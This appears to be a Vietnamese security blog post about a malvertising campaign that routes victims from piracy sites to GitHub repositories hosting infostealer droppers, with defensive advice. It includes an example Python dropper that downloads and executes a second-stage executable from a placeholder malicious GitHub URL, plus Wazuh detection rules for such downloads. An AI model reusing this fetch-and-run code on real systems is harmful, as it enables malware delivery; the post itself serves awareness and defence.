 ```yaml
---
title: "Cảnh báo nguy hiểm: Mối đe dọa mạng từ Malvertising GitHub"
date: 2025-09-13T18:02:53.347+07:00
draft: false
tags: ["an ninh mạng", "malvertising", "GitHub", "phần mềm độc hại", "infostealer"]
categories: ["An ninh mạng"]
---
```


## Table of Contents
- [Mở đầu](#mở-đầu)
- [Nội dung chính](#nội-dung-chính)
- [Kết luận](#kết-luận)

---

### Mở đầu

![Hình ảnh minh họa chuỗi tấn công Malvertising GitHub](static/images/2025/2025-09-13T18:03:13.282+07:00.jpg)

Malvertising, hay quảng cáo độc hại, đã trở thành một trong những phương thức tấn công mạng phổ biến và tinh vi nhất hiện nay. Mới đây, một chiến dịch malvertising quy mô lớn đã bị phát hiện lợi dụng nền tảng GitHub để phân phối phần mềm đánh cắp thông tin (infostealer), gây ra mối đe dọa nghiêm trọng cho hàng triệu thiết bị trên toàn cầu [Nguồn: Microsoft Security Blog]. Bài báo cáo này sẽ đi sâu phân tích cơ chế hoạt động của chiến dịch tấn công này, lý do GitHub bị lợi dụng và đưa ra các khuyến nghị bảo mật nhằm giảm thiểu rủi ro.

Malvertising là việc sử dụng quảng cáo trực tuyến để phát tán phần mềm độc hại. Thay vì hiển thị quảng cáo hợp pháp, tội phạm mạng chèn mã độc vào các banner hoặc pop-up, chuyển hướng người dùng đến các trang web độc hại hoặc tự động tải xuống mã độc. GitHub, một nền tảng lưu trữ mã nguồn phổ biến, đã vô tình trở thành "bãi đáp" cho các phần mềm độc hại này do tính chất mở và đáng tin cậy của nó, gây khó khăn cho các hệ thống bảo mật truyền thống.

### Nội dung chính

#### Cơ chế tấn công Malvertising trên GitHub

Chiến dịch malvertising này hoạt động theo một chuỗi tấn công đa giai đoạn, tinh vi và phức tạp:

1.  **Giai đoạn Khởi nguồn (Initial Access):**
    *   Tấn công bắt đầu từ các trang web có nội dung không chính thống, đặc biệt là các trang xem phim lậu.
    *   Quảng cáo độc hại (malvertising) được nhúng vào các khung phim hoặc banner trên các trang này.
    *   Khi người dùng vô tình nhấp vào quảng cáo, họ sẽ bị chuyển hướng qua một loạt các trang trung gian [Nguồn: Blackswan Cybersecurity].

2.  **Chuyển hướng đến GitHub (Redirection to GitHub):**
    *   Sau nhiều bước chuyển hướng, nạn nhân cuối cùng sẽ được đưa đến một kho lưu trữ (repository) trên GitHub.
    *   Các kho lưu trữ này được tội phạm mạng tạo ra để lưu trữ các tệp độc hại, thường được ngụy trang dưới dạng các ứng dụng hợp pháp hoặc mã nguồn mở [Nguồn: DarkReading].

3.  **Phân phối Payload (Payload Delivery):**
    *   **Payload đầu tiên (First-stage Payload):** Tệp độc hại đầu tiên được tải xuống từ GitHub thường đóng vai trò là một "dropper" hoặc "downloader". Nó được thiết kế để tải về các phần mềm độc hại tiếp theo.
    *   **Ví dụ về code block của dropper:**
        
```python
        # downloader.py - Python script to download second-stage payload
        import requests
        import subprocess

        payload_url = "https://raw.githubusercontent.com/malicious_user/repo/main/second_stage.exe"
        local_filename = "second_stage.exe"

        try:
            response = requests.get(payload_url, stream=True)
            response.raise_for_status()
            with open(local_filename, 'wb') as f:
                for chunk in response.iter_content(chunk_size=8192):
                    f.write(chunk)
            print(f"Downloaded {local_filename}")
            subprocess.Popen([local_filename]) # Execute the downloaded payload
        except Exception as e:
            print(f"Error downloading or executing payload: {e}")
        ```

    *   **Payload thứ hai (Second-stage Payload):** Thực hiện thu thập thông tin hệ thống ban đầu, mã hóa dữ liệu nhạy cảm (ví dụ: bằng Base64) và gửi về máy chủ điều khiển (C2) của kẻ tấn công qua HTTP [Nguồn: Microsoft Security Blog].
    *   **Payload tiếp theo (Third-stage Payload):** Sau khi thông tin ban đầu được thu thập, các mã độc nguy hiểm hơn như Lumma Stealer hoặc Doenerium Stealer sẽ được triển khai. Các phần mềm này có khả năng đánh cắp thông tin đăng nhập, dữ liệu tài chính, ví điện tử và các thông tin nhạy cảm khác [Nguồn: SC Media].

#### Tại sao GitHub bị lạm dụng hiệu quả?

GitHub, với vai trò là nền tảng lưu trữ mã nguồn lớn nhất thế giới, trở thành mục tiêu hấp dẫn cho tội phạm mạng vì nhiều lý do:

*   **Đáng tin cậy và Phổ biến:** GitHub là một nền tảng uy tín và được sử dụng rộng rãi bởi các nhà phát triển và tổ chức. Nhiều công ty IT thường cho phép truy cập GitHub trong môi trường làm việc, khiến việc phát hiện lưu lượng truy cập độc hại trở nên khó khăn hơn. Kẻ tấn công lợi dụng chiến thuật "Living Off Trusted Sites" (LOTS) để ẩn mình [Nguồn: VietnamNet].
*   **Dễ dàng ngụy trang:** Các tệp độc hại có thể được lưu trữ dưới dạng mã nguồn, kịch bản (script) hoặc các công cụ hợp pháp, khiến việc phân biệt giữa mã nguồn tốt và xấu trở nên thách thức đối với các giải pháp bảo mật tự động [Nguồn: ESSVN].
*   **Thiếu giải pháp phát hiện triệt để:** Mặc dù GitHub có các cơ chế bảo mật, nhưng việc phát hiện và ngăn chặn triệt để các hành vi lạm dụng tinh vi như vậy vẫn còn là một thách thức lớn. Kẻ tấn công liên tục thay đổi phương thức để tránh bị phát hiện [Nguồn: An Toàn Thông Tin].

#### Hướng dẫn phòng tránh và bảo vệ

Để bảo vệ bản thân và tổ chức khỏi các mối đe dọa malvertising trên GitHub, cần áp dụng các biện pháp phòng ngừa sau:

1.  **Cẩn trọng với nguồn gốc truy cập:**
    *   Tránh truy cập các trang web không chính thống, đặc biệt là các trang web cung cấp nội dung "miễn phí" như phim lậu, phần mềm crack.
    *   Luôn kiểm tra URL và chứng chỉ bảo mật (HTTPS) của trang web trước khi tương tác.

2.  **Kiểm soát truy cập Internet:**
    *   Trong môi trường doanh nghiệp, cần thiết lập các chính sách kiểm soát truy cập Internet nghiêm ngặt.
    *   Giới hạn quyền truy cập vào các dịch vụ lưu trữ mã nguồn công cộng hoặc các repository không được xác minh.
    *   Sử dụng proxy hoặc tường lửa ứng dụng (WAF) để lọc và kiểm tra lưu lượng truy cập.

3.  **Tăng cường giám sát Endpoint và Network:**
    *   Triển khai các giải pháp EDR (Endpoint Detection and Response) và SIEM (Security Information and Event Management) để phát hiện hành vi bất thường.
    *   Giám sát các quy trình thực thi tệp lạ, đặc biệt là các tệp được tải xuống từ các domain GitHub.
    *   Thực hiện phân tích IoC (Indicators of Compromise) thường xuyên để phát hiện sớm các dấu hiệu tấn công.
    *   **Ví dụ cấu hình giám sát bằng Wazuh SIEM (Rule ví dụ):**
        
```yaml
        <group name="github_malware_detection,">
          <rule id="100001" level="12">
            <if_sid>60101</if_sid> <!-- Example: if a file download event occurs -->
            <field name="win.eventdata.targetFilename" type="pcre2">.*github\.com.*\.exe$</field>
            <description>Possible malware download from GitHub.</description>
            <mitre>
              <id>T1071.001</id>
              <id>T1566.001</id>
            </mitre>
          </rule>

          <rule id="100002" level="10">
            <if_sid>60101</if_sid>
            <field name="win.eventdata.processCommandline" type="pcre2">.*second_stage\.exe.*</field>
            <description>Execution of known second-stage payload from GitHub malvertising.</description>
            <mitre>
              <id>T1059.003</id>
            </mitre>
          </rule>
        </group>
        ```


4.  **Cập nhật phần mềm và giải pháp bảo mật:**
    *   Đảm bảo tất cả hệ điều hành, trình duyệt và phần mềm bảo mật (antivirus, firewall) luôn được cập nhật phiên bản mới nhất.
    *   Theo dõi các khuyến nghị và cảnh báo bảo mật từ các nhà cung cấp lớn như Microsoft, GitHub và các tổ chức an ninh mạng.

### Kết luận

Malvertising lợi dụng GitHub là một minh chứng cho sự phát triển không ngừng của các mối đe dọa mạng. Bằng cách tận dụng các nền tảng hợp pháp và đáng tin cậy, tội phạm mạng có thể dễ dàng ẩn mình và thực hiện các cuộc tấn công quy mô lớn. Việc hiểu rõ cơ chế tấn công, kết hợp với các biện pháp bảo mật chủ động và nâng cao nhận thức người dùng, là chìa khóa để bảo vệ cá nhân và tổ chức khỏi mối đe dọa tinh vi này. Các tổ chức cần đầu tư vào các giải pháp giám sát toàn diện và xây dựng quy trình ứng phó sự cố hiệu quả để đối phó kịp thời với các cuộc tấn công trong tương lai.
